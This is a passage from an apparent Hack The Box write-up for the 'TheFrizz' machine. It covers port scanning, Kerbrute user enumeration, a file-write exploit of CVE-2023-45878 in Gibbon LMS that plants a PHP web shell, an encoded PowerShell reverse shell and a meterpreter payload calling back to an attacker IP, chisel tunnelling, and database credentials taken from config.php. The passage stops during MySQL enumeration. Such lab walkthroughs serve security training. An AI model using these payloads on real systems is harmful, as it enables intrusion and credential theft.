





## Table of Contents

- [Acknowledgement](#Acknowledgement)
- [Summary](#Summary)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Enumeration of Port 80/TCP](#Enumeration-of-Port-80TCP)
- [Foothold](#Foothold)
    - [Foothold#Gibbon LMS](#Gibbon-LMS)
        - [CVE-2023-34598: Local File Inclusion (LFI) in Gibbon LMS](#CVE-2023-34598-Local-File-Inclusion-LFI-in-Gibbon-LMS)
        - [CVE-2023-45878: Arbitrary File Write in Gibbon LMS](#CVE-2023-45878-Arbitrary-File-Write-in-Gibbon-LMS)
- [Persistence](#Persistence)
- [Enumeration of w.webservice](#Enumeration-of-wwebservice)
- [MySQL Database](#MySQL-Database)
    - [Port Forwarding](#Port-Forwarding)
    - [MySQL Database](#MySQL-Database)
- [Privilege Escalation to f.frizzle](#Privilege-Escalation-to-ffrizzle)
    - [Cracking the Hash](#Cracking-the-Hash)
    - [Syncing Time](#Syncing-Time)
    - [Kerberos Ticket Request](#Kerberos-Ticket-Request)
    - [SSH Configuration](#SSH-Configuration)
    - [KRB5 Configuration](#KRB5-Configuration)
- [user.txt](#usertxt)
- [Enumeration of f.frizzle](#Enumeration-of-ffrizzle)
- [Privilege Escalation to M.SchoolBus](#Privilege-Escalation-to-MSchoolBus)
    - [Playing Trash Panda](#Playing-Trash-Panda)
    - [Investigating the 7-Zip Archive](#Investigating-the-7-Zip-Archive)
    - [Get Access as M.SchoolBus](#Get-Access-as-MSchoolBus)
- [Pivoting M.SchoolBus](#Pivoting-MSchoolBus)
- [Active Directory](#Active-Directory)
    - [Creating Dump using SharpHound](#Creating-Dump-using-SharpHound)
    - [Investigation using BloodHound](#Investigation-using-BloodHound)
- [Privilege Escalation to SYSTEM](#Privilege-Escalation-to-SYSTEM)
    - [Group Policy Object (GPO) Abuse](#Group-Policy-Object-GPO-Abuse)
- [root.txt](#roottxt)

## Acknowledgement

Even when quite some people like `Bushidosan`, `mentats` and myself worked on this box, the most part was cooked by `ethicxz` and therefore I want give him a huge `shout-out` and a big `THANK YOU` for his contribution and support!

## Summary

The box starts with `Foothold` through `CVE-2023-45878` which describes an `Arbitrary File Write` vulnerability in `Gibbon LMS`. After gaining foothold as `w.webservice` the next step is to access the `MySQL database` by using `credentials` which can be found within a file in the `Gibbon LMS` directory. The database then reveals a `hash` for the user `f.frizzle` which can be cracked using `hashcat`. After requesting a `Kerberos ticket` and gaining access to the box through `WinRM` the `user.txt` can be grabbed. For the second `privilege escalation` to `M.SchoolBus` a hint can be found within a `scheduled task` which is doing `cleanup` on the box and moves files to `Recycle Bin`. With the use of `PowerShell` a `7-Zip` archive can be retrieved from there. The archive contains a `Base64 encoded` password which works for `M.SchoolBus`. As last step the `abuse` of the `group membership` of `M.SchoolBus` which allows him to `create Group Policy Objects (GPOs)` is required. It makes it possible to `create` and `link` a new `GPO` to the `Local Administrators group` and add the user to it. After a short `update` of the `group policies` and a `re-login` the user is `local administrator` and therefore the `root.txt` can be obtained.

## Reconnaissance

### Port Scanning

The box started a bit unusual as we quickly figured out. We expected the typical ports as open during our initial `port scan`. However port `22/TCP` was also open. Later in the box it showed that this port was completely useless.

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.41.22
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-15 20:08 CET
Nmap scan report for frizz.htb (10.129.41.22)
Host is up (0.018s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_9.5 (protocol 2.0)
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.2.12)
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
|_http-title: Did not follow redirect to http://frizzdc.frizz.htb/home/
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-03-16 02:08:46Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: frizz.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: frizz.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Hosts: localhost, FRIZZDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 7h00m00s
| smb2-time: 
|   date: 2025-03-16T02:08:49
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.19 seconds
```

Since `Nmap` showed us a `redirect` to `frizzdc.frizz.htb` we added it directly to our `/etc/hosts` file.

```c
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts  
127.0.0.1       localhost
127.0.1.1       kali
10.129.41.22    frizz.htb
10.129.41.22    frizzdc.frizz.htb
```

### Enumeration of Port 80/TCP

The website provided us some useful information like `Gibbon LMS` running on it and also a potential `username`.

- [http://frizzdc.frizz.htb/](http://frizzdc.frizz.htb/)


```c
┌──(kali㉿kali)-[~]
└─$ whatweb http://frizzdc.frizz.htb/
http://frizzdc.frizz.htb [302 Found] Apache[2.4.58], Country[RESERVED][ZZ], HTTPServer[Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12], IP[10.129.41.22], OpenSSL[3.1.3], PHP[8.2.12], RedirectLocation[http://frizzdc.frizz.htb/home/], Title[302 Found]
http://frizzdc.frizz.htb/home/ [200 OK] Apache[2.4.58], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12], IP[10.129.41.22], JQuery, Modernizr[2.6.2.min], OpenSSL[3.1.3], PHP[8.2.12], Script, Title[Education &mdash; Walkerville Elementary School], X-UA-Compatible[IE=edge]
```

- [http://frizzdc.frizz.htb/Gibbon-LMS/](http://frizzdc.frizz.htb/Gibbon-LMS/)



On the `Testimonials` we found the previously mentioned potential `username` of `Fiona` and as she was called `Ms. Frizzle`, we assumed that it could be `f.frizzle`.

We verified it using `Kerbrute`.

```c
┌──(kali㉿kali)-[~/opt/05_password_attacks/kerbrute]
└─$ ./kerbrute userenum -d frizz.htb --dc frizzdc.frizz.htb /media/sf_cybersecurity/notes/HTB/Machines/TheFrizz/files/usernames.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 03/15/25 - Ronnie Flathers @ropnop

2025/03/15 20:45:00 >  Using KDC(s):
2025/03/15 20:45:00 >   frizzdc.frizz.htb:88

2025/03/15 20:45:00 >  [+] VALID USERNAME:       f.frizzle@frizz.htb
2025/03/15 20:45:00 >  Done! Tested 3 usernames (1 valid) in 0.024 seconds
```

| Username  |
| --------- |
| f.frizzle |

## Foothold
### Gibbon LMS

#### CVE-2023-34598: Local File Inclusion (LFI) in Gibbon LMS

First we found that `Gibbon LMS` was vulnerable to `CVE-2023-34598` aka `Local File Inclusion (LFI)` which unfortunately didn't do us any good due to `missing permissions`.

- [https://github.com/advisories/GHSA-mrqc-wm68-8hhj](https://github.com/advisories/GHSA-mrqc-wm68-8hhj)
- [https://github.com/maddsec/CVE-2023-34598](https://github.com/maddsec/CVE-2023-34598)

```c
GET /Gibbon-LMS/?q=gibbon.sql HTTP/1.1
Host: frizzdc.frizz.htb
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: G60fa1cd0af7be78b=bl507eicmtvki3h0am5g4s60bj
Connection: keep-alive


```



#### CVE-2023-45878: Arbitrary File Write in Gibbon LMS

After more research we found that it was also vulnerable to `CVE-2023-45878` which describes the `Arbitrary File Write` vulnerability to the `rubics_visualise_saveAjax.php` endpoint.

- [https://github.com/advisories/GHSA-r526-pvv3-w6p8](https://github.com/advisories/GHSA-r526-pvv3-w6p8)
- [https://ogma.in/understanding-cve-2023-45878-mitigating-arbitrary-file-write-vulnerability-in-gibbonedu](https://ogma.in/understanding-cve-2023-45878-mitigating-arbitrary-file-write-vulnerability-in-gibbonedu)

We used the `Proof of Concept (PoC)` we found in the `article` to write a `web shell` on the disk.

[http://frizzdc.frizz.htb/Gibbon-LMS/modules/Rubrics/rubrics_visualise_saveAjax.php](http://frizzdc.frizz.htb/Gibbon-LMS/modules/Rubrics/rubrics_visualise_saveAjax.php)

```c
img=image/png;asdf,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbJ2NtZCddKT8%2b&path=asdf.php&gibbonPersonID=0000000001
```

```c
POST /Gibbon-LMS/modules/Rubrics/rubrics_visualise_saveAjax.php HTTP/1.1
Host: frizzdc.frizz.htb
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: G60fa1cd0af7be78b=1fttg9ptsdtogncnfmcq301q1q
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 105

img=image/png;asdf,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbJ2NtZCddKT8%2b&path=asdf.php&gibbonPersonID=0000000001
```

```c
HTTP/1.1 200 OK
Date: Sun, 16 Mar 2025 03:11:16 GMT
Server: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
X-Frame-Options: SAMEORIGIN
Pragma: no-cache
Cache-Control: max-age=0, no-cache, no-store, must-revalidate
Expires: Thu, 1 Jan 1970 00:00:00 GMT
Content-Length: 8
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

asdf.php
```



Then we grabbed a `reverse shell` payload from `revshells.com` to get `foothold`.

- [https://revshells.com/](https://revshells.com/)

```c
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQAyADQAIgAsADkAMAAwADEAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
```

```c
http://frizzdc.frizz.htb/Gibbon-LMS/asdf.php?cmd=powershell%20-e%20JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQAyADQAIgAsADkAMAAwADEAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
```

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.124] from (UNKNOWN) [10.129.41.22] 63339

PS C:\xampp\htdocs\Gibbon-LMS>
```

## Persistence

For `presistence` we fired up `Metasploit` to have a second channel open; just in case.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/TheFrizz/serve]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.124 LPORT=9999 -f exe -o asdf.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: asdf.exe
```

```c
┌──(kali㉿kali)-[~]
└─$ msfconsole
Metasploit tip: Use the resource command to run commands from a file
                                                  
                                              `:oDFo:`                            
                                           ./ymM0dayMmy/.                          
                                        -+dHJ5aGFyZGVyIQ==+-                    
                                    `:sm⏣~~Destroy.No.Data~~s:`                
                                 -+h2~~Maintain.No.Persistence~~h+-              
                             `:odNo2~~Above.All.Else.Do.No.Harm~~Ndo:`          
                          ./etc/shadow.0days-Data'%20OR%201=1--.No.0MN8'/.      
                       -++SecKCoin++e.AMd`       `.-://///+hbove.913.ElsMNh+-    
                      -~/.ssh/id_rsa.Des-                  `htN01UserWroteMe!-  
                      :dopeAW.No<nano>o                     :is:TЯiKC.sudo-.A:  
                      :we're.all.alike'`                     The.PFYroy.No.D7:  
                      :PLACEDRINKHERE!:                      yxp_cmdshell.Ab0:    
                      :msf>exploit -j.                       :Ns.BOB&ALICEes7:    
                      :---srwxrwx:-.`                        `MS146.52.No.Per:    
                      :<script>.Ac816/                        sENbove3101.404:    
                      :NT_AUTHORITY.Do                        `T:/shSYSTEM-.N:    
                      :09.14.2011.raid                       /STFU|wall.No.Pr:    
                      :hevnsntSurb025N.                      dNVRGOING2GIVUUP:    
                      :#OUTHOUSE-  -s:                       /corykennedyData:    
                      :$nmap -oS                              SSo.6178306Ence:    
                      :Awsm.da:                            /shMTl#beats3o.No.:    
                      :Ring0:                             `dDestRoyREXKC3ta/M:    
                      :23d:                               sSETEC.ASTRONOMYist:    
                       /-                        /yo-    .ence.N:(){ :|: & };:    
                                                 `:Shall.We.Play.A.Game?tron/    
                                                 ```-ooy.if1ghtf0r+ehUser5`    
                                               ..th3.H1V3.U2VjRFNN.jMh+.`          
                                              `MjM~~WE.ARE.se~~MMjMs              
                                               +~KANSAS.CITY's~-`                  
                                                J~HAKCERS~./.`                    
                                                .esc:wq!:`                        
                                                 +++ATH`                            
                                                  `


       =[ metasploit v6.4.45-dev                          ]
+ -- --=[ 2489 exploits - 1281 auxiliary - 393 post       ]
+ -- --=[ 1463 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.124
LHOST => 10.10.14.124
msf6 exploit(multi/handler) > set LPORT 9999
LPORT => 9999
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.14.124:9999
```

```c
PS C:\temp> iwr 10.10.14.124/asdf.exe -o asdf.exe
```

```c
PS C:\temp> .\asdf.exe
```

```c
[*] Sending stage (203846 bytes) to 10.129.41.22
[*] Meterpreter session 1 opened (10.10.14.124:9999 -> 10.129.41.22:63387) at 2025-03-15 21:22:37 +0100

meterpreter >
```

## Enumeration of w.webservice

A quick `enumeration` of the user `w.webservice` we dropped into showed nothing special in terms of `permissions` and `group memberships`.

```c
PS C:\> whoami /all

USER INFORMATION
----------------

User Name          SID                                           
================== ==============================================
frizz\w.webservice S-1-5-21-2386970044-1145388522-2932701813-1120


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes                                        
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                       Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1     Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288                                                   


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeCreateGlobalPrivilege       Create global objects          Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

So we started searching the `directory` we dropped into for `credentials` and luckily we found some to access the local `MySQL database`.

```c
PS C:\xampp\htdocs\Gibbon-LMS> type config.php
<?php
/*
Gibbon, Flexible & Open School System
Copyright (C) 2010, Ross Parker

This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

You should have received a copy of the GNU General Public License
along with this program.  If not, see <http://www.gnu.org/licenses/>.
*/

/**
 * Sets the database connection information.
 * You can supply an optional $databasePort if your server requires one.
 */
$databaseServer = 'localhost';
$databaseUsername = 'MrGibbonsDB';
$databasePassword = 'MisterGibbs!Parrot!?1';
$databaseName = 'gibbon';

/**
 * Sets a globally unique id, to allow multiple installs on a single server.
 */
$guid = '7y59n5xz-uym-ei9p-7mmq-83vifmtyey2';

/**
 * Sets system-wide caching factor, used to balance performance and freshness.
 * Value represents number of page loads between cache refresh.
 * Must be positive integer. 1 means no caching.
 */
$caching = 10;
```

| Username    | Password              |
| ----------- | --------------------- |
| MrGibbonsDB | MisterGibbs!Parrot!?1 |

## MySQL Database

### Port Forwarding

In order to access the database we create a `SOCKS tunnel` using `chisel`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/TheFrizz/serve]
└─$ chisel server -p 6665 --reverse
2025/03/15 21:49:22 server: Reverse tunnelling enabled
2025/03/15 21:49:22 server: Fingerprint 8oHr18kvPHnOfDtg3atctLZSdGc04XYpMEOpLbePABQ=
2025/03/15 21:49:22 server: Listening on http://0.0.0.0:6665
```

```c
PS C:\temp> .\chisel.exe client 10.10.14.124:6665 R:socks
```

### MySQL Database

The enumeration of the database showed some interesting information from the `IT department` and also provided us a `hash` for `f.frizzle`.

```c
┌──(kali㉿kali)-[~]
└─$ proxychains -q mysql -h 127.0.0.1 -u 'MrGibbonsDB' -p --skip-ssl
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 328
Server version: 10.4.32-MariaDB mariadb.org binary distribution

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Support MariaDB developers by giving a star at https://github.com/MariaDB/server
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

```c
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| gibbon             |
| information_schema |
| test               |
